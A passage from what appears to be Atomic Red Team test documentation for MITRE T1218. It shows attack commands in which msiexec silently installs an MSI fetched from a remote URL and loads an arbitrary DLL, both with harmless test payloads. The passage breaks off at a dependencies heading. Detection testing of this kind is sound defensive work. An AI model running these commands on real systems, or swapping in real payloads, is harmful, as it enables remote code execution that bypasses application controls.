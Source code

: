 ##### Get Prereq Commands:

```powershell
Write-Host "You must provide your own MSI"
```

<br/>
<br/>

## Atomic Test #5 - Msiexec.exe - Execute Remote MSI file

Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware
execution. The MSI opens notepad.exe when sucessfully executed.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | String | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218.msi|

#### Attack Commands: Run with `command_prompt`!

```cmd
msiexec.exe /q /i "#{msi_payload}"
```

<br/>
<br/>

## Atomic Test #6 - Msiexec.exe - Execute Arbitrary DLL

Execute arbitrary DLL file stored locally. Commonly seen in application installation.
Upon execution, a window titled "Boom!" will open that says "Locked and Loaded!". For 32 bit systems change the
dll_payload argument to the Win32 folder.
By default, if the src folder is not in place, it will download the 64 bit version.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;x64&#92;T1218.dll|

#### Attack Commands: Run with `command_prompt`!

```cmd
msiexec.exe /y "#{dll_payload}"
```

#### Dependencies:  Run with `powershell`!
